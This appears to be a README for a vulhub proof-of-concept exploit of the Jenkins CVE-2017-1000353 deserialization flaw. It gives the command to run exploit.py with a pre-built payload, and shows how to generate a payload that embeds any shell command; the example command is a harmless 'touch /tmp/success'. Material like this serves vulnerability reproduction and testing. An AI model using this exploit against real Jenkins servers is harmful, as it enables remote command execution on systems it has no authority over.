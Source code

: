 # CVE-2017-1000353 POC

How to reproduce the Jenkins CVE-2017-1000353？

Clone this repository, use the pre-built payload `jenkins_poc.ser` with flowing command:

```
python exploit.py http://your-ip:8080 jenkins_poc.ser
```

Then the `touch /tmp/success` would be executed.

How to generate the payload `jenkins_poc.ser`？

Download [CVE-2017-1000353-SNAPSHOT-all.jar](https://github.com/vulhub/CVE-2017-1000353/releases/download/1.1/CVE-2017-1000353-1.1-SNAPSHOT-all.jar).

```
java -jar CVE-2017-1000353-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
```

Referer:

https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2017-1000353
